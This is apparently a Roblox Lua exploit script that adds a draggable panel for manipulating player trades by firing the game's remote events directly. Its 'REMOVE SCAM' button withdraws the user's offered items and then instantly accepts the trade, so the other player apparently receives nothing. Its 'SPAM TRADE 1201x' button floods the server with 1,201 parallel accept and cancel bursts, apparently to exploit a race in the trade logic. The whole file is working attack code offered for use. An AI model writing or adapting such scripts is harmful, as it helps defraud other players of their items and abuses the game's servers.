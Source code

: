 local Players = game:GetService("Players")
local ReplicatedStorage = game:GetService("ReplicatedStorage")
local player = Players.LocalPlayer

local screenGui = Instance.new("ScreenGui", player:WaitForChild("PlayerGui"))
screenGui.Name = "TrailOfferGui"
screenGui.ResetOnSpawn = false

local frame = Instance.new("Frame", screenGui)
frame.AnchorPoint = Vector2.new(0, 1)
frame.Position = UDim2.new(0, 10, 1, -10)
frame.Size = UDim2.new(0, 270, 0, 200) -- Increased height for extra buttons
frame.BackgroundColor3 = Color3.fromRGB(25, 25, 25)
frame.BackgroundTransparency = 0.2
frame.BorderSizePixel = 0
frame.Active, frame.Draggable = true, true

local textBox = Instance.new("TextBox", frame)
textBox.Text = ""
textBox.PlaceholderText = "Trail to offer"
textBox.Size = UDim2.new(1, -20, 0, 30)
textBox.Position = UDim2.new(0, 10, 0, 10)
textBox.BackgroundColor3 = Color3.fromRGB(40, 40, 40)
textBox.TextColor3 = Color3.fromRGB(255, 255, 255)
textBox.BorderSizePixel = 0

local function createButton(txt, pos, color, callback)
	local btn = Instance.new("TextButton", frame)
	btn.Text = txt
	btn.Size = UDim2.new(0.5, -15, 0, 25)
	btn.Position = pos
	btn.BackgroundColor3 = color
	btn.TextColor3 = Color3.fromRGB(255, 255, 255)
	btn.BorderSizePixel = 0
	btn.MouseButton1Click:Connect(callback)
end

createButton("Offer", UDim2.new(0, 10, 0, 50), Color3.fromRGB(60, 130, 200), function()
	if textBox.Text ~= "" then
		ReplicatedStorage.TradeTrailAdd:FireServer(textBox.Text)
	end
end)

createButton("De-offer", UDim2.new(0.5, 5, 0, 50), Color3.fromRGB(200, 100, 80), function()
	if textBox.Text ~= "" then
		ReplicatedStorage.TradeTrailPutBack:FireServer(textBox.Text)
	end
end)

createButton("Accept", UDim2.new(0, 10, 0, 85), Color3.fromRGB(80, 200, 120), function()
	ReplicatedStorage.TradeMenuAccept:FireServer()
end)

createButton("Cancel", UDim2.new(0.5, 5, 0, 85), Color3.fromRGB(180, 50, 50), function()
	ReplicatedStorage.TradeMenuCancel:FireServer()
end)

local scamButton = Instance.new("TextButton", frame)
scamButton.Text = "REMOVE SCAM"
scamButton.Size = UDim2.new(1, -20, 0, 25)
scamButton.Position = UDim2.new(0, 10, 0, 120)
scamButton.BackgroundColor3 = Color3.fromRGB(255, 0, 0)
scamButton.TextColor3 = Color3.fromRGB(255, 255, 255)
scamButton.BorderSizePixel = 0
scamButton.MouseButton1Click:Connect(function()
	local pgui = player.PlayerGui.Interactive.Frames.YY.XY.TradeMenu
	for i = 1, 3 do
		local slot = pgui["Your"..i]
		if #slot:GetChildren() > 0 then
			ReplicatedStorage.TradeTrailPutBack:FireServer(slot:GetChildren()[1].Name)
		end
	end
	ReplicatedStorage.TradeMenuAccept:FireServer()
end)

-- 🚨 NEW BUTTON: MASS TRADE SPAM
local spamButton = Instance.new("TextButton", frame)
spamButton.Text = "SPAM TRADE 1201x"
spamButton.Size = UDim2.new(1, -20, 0, 25)
spamButton.Position = UDim2.new(0, 10, 0, 155)
spamButton.BackgroundColor3 = Color3.fromRGB(255, 140, 0)
spamButton.TextColor3 = Color3.fromRGB(255, 255, 255)
spamButton.BorderSizePixel = 0
spamButton.MouseButton1Click:Connect(function()
	for i = 1, 1201 do
		task.spawn(function()
			ReplicatedStorage.TradeAccept:FireServer()
			ReplicatedStorage.TradeMenuCancel:FireServer()
			ReplicatedStorage.TradeAccept:FireServer()
		end)
	end
end)
